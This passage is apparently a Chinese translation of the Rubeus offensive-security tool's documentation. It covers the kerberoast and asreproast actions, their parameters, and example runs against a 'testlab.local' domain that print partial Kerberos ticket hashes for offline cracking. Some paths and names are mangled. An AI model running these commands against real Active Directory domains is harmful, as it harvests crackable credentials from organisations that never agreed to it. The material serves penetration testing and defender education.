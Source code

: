 ### <a class="reference-link" name="Kerberoast"></a>Kerberoast

**kerberoast** 操作实现了 [SharpRoast](https://github.com/GhostPack/SharpRoast) 项目的功能。与 SharpRoast 一样，这部分功能使用了 [KerberosRequestorSecurityToken.GetRequest Method()](https://msdn.microsoft.com/en-us/library/system.identitymodel.tokens.kerberosrequestorsecuritytoken.getrequest(v=vs.110).aspx) 方法，此方法是 [janky regex](https://github.com/GhostPack/SharpRoast/blob/6cdbeb0cf14fe60ae74fdc174a9e70081c2fa8c0/SharpRoast/Program.cs#L70) 。

如果没有其他参数，则当前域中所有设置了 SPN 的用户账户都将被执行 kerberoast 操作。**/spn:X** 参数可针对指定的SPN 进行操作，**/user:X** 参数可针对指定的用户进行操作，**/ou:X** 参数可针对指定的 OU 中的用户进行操作。如果要使用备用域凭据进行 kerberoasing，可以使用 **/creduser:DOMAIN.FQDNUSER** **/credpassword:PASSWORD** 参数来指定。

```
c:Rubeus&gt;Rubeus.exe kerberoast /ou:OU=TestingOU,DC=testlab,DC=local

   ______        _
  (_____       | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ | ___ | | | |/___)
  | |   | |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v1.0.0

[*] Action: Kerberoasting

[*] SamAccountName         : testuser2
[*] DistinguishedName      : CN=testuser2,OU=TestingOU,DC=testlab,DC=local
[*] ServicePrincipalName   : service/host
[*] Hash                   : $krb5tgs$5$*$testlab.local$service/
```

### <a class="reference-link" name="asreproast"></a>asreproast

**asreproast** 操作和 [ASREPRoast](https://github.com/HarmJ0y/ASREPRoast/) 项目的功能一致，后者使用（体积较大的） [BouncyCastle](https://www.bouncycastle.org/) 库实现类似的功能。如果一个用户没有启用 kerberos 预身份认证，则可以为此用户成功请求 AS-REP，而此结构的一个组件可以被离线破解，也就是 kerberoasting。

**/user:X** 参数是必需的，而 **/domain** 和 **/dc** 参数是可选的。如果 **/domain** 和 **/dc** 参数没有被指定，则 Rubeus 将和其他操作一样，获取系统的默认值。 [ASREPRoast](https://github.com/HarmJ0y/ASREPRoast/) 项目中为此哈希类型提供了与 JohnTheRipper 兼容的破解模块。

```
c:Rubeus&gt;Rubeus.exe asreproast /user:dfm.a

   ______        _
  (_____       | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ | ___ | | | |/___)
  | |   | |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v1.0.0

[*] Action: AS-REP Roasting

[*] Using domain controller: PRIMARY.testlab.local (192.168.52.100)
[*] Building AS-REQ (w/o preauth) for: 'testlab.localdfm.a'
[*] Connecting to 192.168.52.100:88
[*] Sent 163 bytes
[*] Received 1537 bytes
[+] AS-REQ w/o preauth successful!
[*] AS-REP hash:

```
